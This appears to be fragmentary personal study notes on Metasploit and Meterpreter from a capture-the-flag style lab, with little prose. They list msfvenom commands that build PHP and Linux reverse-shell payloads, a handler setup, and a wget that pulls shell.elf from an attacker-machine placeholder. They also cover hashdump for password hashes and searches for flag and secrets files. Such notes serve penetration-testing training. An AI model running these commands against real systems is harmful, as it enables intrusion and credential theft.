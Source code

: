 meterpreter : Run on memory on target, we can interact with like shell by metasploit


meterpreter > `{shell icon} search -f flag.txt`
meterpreter > `{shell icon} cat c:\\Users\\Jon\\Documents\\flag.txt ` 

**hashdump** password hash


```shell-session
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```
```shell-session
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
```shell-session
use exploit/multi/handler 
```
python3 -m http.server 9000
wget http://ATTACKING_MA[[]]CHINE_IP:9000/shell.elf

```shell-session
use exploit/multi/handler 
set payload linux/x86/meterpreter/reverse_tcp
```

IPS (Intrusion Prevention System) and IDS (Intrusion Detection System)
 sysinfo on Windows
 NetBIOS domain using post/windows/gather/enum_domain
 search -f secrets.txt
 hashdump